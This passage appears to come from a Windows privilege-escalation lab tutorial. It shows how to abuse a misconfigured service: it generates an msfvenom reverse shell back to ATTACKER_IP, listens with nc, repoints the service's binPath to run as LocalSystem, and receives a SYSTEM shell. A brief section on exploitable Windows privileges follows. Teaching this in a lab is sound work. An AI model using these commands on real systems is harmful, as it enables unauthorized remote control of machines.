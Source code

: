 Before changing the service, let's build another exe-service reverse shell and start a listener for it on the attacker's machine:

Kali
Linux
user@attackerpc$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4447 -f exe-service -o rev-svc3.exe

user@attackerpc$ nc -lvp 4447
We will then transfer the reverse shell executable to the target machine and store it in C:\Users\thm-unpriv\rev-svc3.exe. 
Feel free to use wget to transfer your executable and move it to the desired location. Remember to grant permissions to Everyone to execute your payload:

Command Prompt
C:\> icacls C:\Users\thm-unpriv\rev-svc3.exe /grant Everyone:F
To change the service's associated executable and account, we can use the following command (mind the spaces after the equal signs when using sc.exe):

Command Prompt
C:\> sc config THMService binPath= "C:\Users\thm-unpriv\rev-svc3.exe" obj= LocalSystem
Notice we can use any account to run the service. We chose LocalSystem as it is the highest privileged account available. 
To trigger our payload, all that rests is restarting the service:

Command Prompt
C:\> sc stop THMService
C:\> sc start THMService
And we will receive a shell back in our attacker's machine with SYSTEM privileges:

Kali
Linux
user@attackerpc$ nc -lvp 4447
Listening on 0.0.0.0 4447
Connection received on 10.10.175.90 50650
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
NT AUTHORITY\SYSTEM

# Abusing dangerous privileges
Start Machine
Windows Privileges
Privileges are rights that an account has to perform specific system-related tasks. 
These tasks can be as simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.

Each user has a set of assigned privileges that can be checked with the following command:

### whoami /priv
A complete list of available privileges on Windows systems is available here. 
From an attacker's standpoint, only those privileges that allow us to escalate in the system are of interest. You can find a comprehensive list of exploitable privileges on the Priv2Admin Github project.
